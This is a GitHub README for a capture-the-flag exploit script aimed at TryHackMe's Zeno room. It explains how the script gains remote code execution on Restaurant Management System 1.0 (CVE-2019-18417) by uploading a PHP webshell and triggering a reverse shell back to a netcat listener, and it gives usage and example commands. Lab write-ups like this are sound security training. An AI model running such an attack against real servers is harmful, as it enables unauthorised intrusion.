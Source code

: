 ## About:
* **Platform**&nbsp;&nbsp;&nbsp;: TryHackMe
* **Challenge**&nbsp;: Zeno
* **Difficulty**&nbsp;&nbsp;: Medium
* **Link**&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: [https://tryhackme.com/room/zeno](https://tryhackme.com/room/zeno)

## Description:
This script exploits a **Remote Code Execution** vulnerability in **Restaurant Management System 1.0**, by running a reverse shell script on the target server in order to get an initial foothold on the system as the user running the vulnerable web application. <br/>
This works by uploading a PHP webshell via the endpoint `/rms/admin/foods-exec.php`. Subsequently, this uploaded webshell located at `/rms/images/` is utilized to execute OS commands on the server.

## Reference:
[+] [https://nvd.nist.gov/vuln/detail/CVE-2019-18417](https://nvd.nist.gov/vuln/detail/CVE-2019-18417)

## Usage:
```bash
# Start a netcat listener on port 'netcat_port':
$ nc -nlvp $netcat_port
# Run the script: 
$ python3 rms-rce.py target_IP target_port target_uri local_ip netcat_port
```

## Example:
```bash
$ nc -nlvp 9999
$ python3 rms-rce.py zeno.thm 12340 /rms/ 10.8.16.233 9999
```
![2023-09-14 20_34_07-KaliLinux - VMware Workstation 17 Player (Non-commercial use only)](https://github.com/YounesTasra-R4z3rSw0rd/CTF-Scripts/assets/101610095/84abeea1-f493-4d12-942c-d3f47cde6b7f)
